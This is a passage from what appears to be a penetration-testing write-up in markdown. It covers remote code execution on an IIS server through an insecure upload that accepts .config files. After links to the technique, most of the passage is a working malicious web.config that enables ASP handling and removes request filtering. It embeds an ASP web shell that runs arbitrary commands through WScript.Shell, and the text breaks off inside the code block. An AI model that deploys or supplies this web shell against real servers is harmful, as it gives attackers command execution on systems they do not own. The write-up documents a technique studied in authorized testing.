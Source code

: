 **.config** file were accepted:

![Pasted image 20210524164326.png](../../zzz_res/attachments/Pasted_image_20210524164326.png)

# Exploitation

## Insecure File Upload (.config Remote File Execution)

- [upload-a-web-config-file-for-fun-profit](https://soroush.secproject.com/blog/2014/07/upload-a-web-config-file-for-fun-profit/)
- [uploading-web-config-for-fun-and-profit-2](https://soroush.secproject.com/blog/2019/08/uploading-web-config-for-fun-and-profit-2/)
- [KSEC ARK - Pentesting and redteam knowledge base | IIS - Web.config File Exploit](https://www.ivoidwarranties.tech/posts/pentesting-tuts/iis/web-config/)

It was possible to execute arbitrary code uploading a custom `web.config` file:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<configuration>
   <system.webServer>
      <handlers accessPolicy="Read, Script, Write">
         <add name="web_config" path="*.config" verb="*" modules="IsapiModule" scriptProcessor="%windir%\system32\inetsrv\asp.dll" resourceType="Unspecified" requireAccess="Write" preCondition="bitness64" />
      </handlers>
      <security>
         <requestFiltering>
            <fileExtensions>
               <remove fileExtension=".config" />
            </fileExtensions>
            <hiddenSegments>
               <remove segment="web.config" />
            </hiddenSegments>
         </requestFiltering>
      </security>
   </system.webServer>
</configuration>
<!--
<% Response.write("-"&"->")%>
<%
Set oScript = Server.CreateObject("WSCRIPT.SHELL")
Set oScriptNet = Server.CreateObject("WSCRIPT.NETWORK")
Set oFileSys = Server.CreateObject("Scripting.FileSystemObject")

Function getCommandOutput(theCommand)
    Dim objShell, objCmdExec
    Set objShell = CreateObject("WScript.Shell")
    Set objCmdExec = objshell.exec(thecommand)

    getCommandOutput = objCmdExec.StdOut.ReadAll
end Function
%>

<BODY>
<FORM action="" method="GET">
```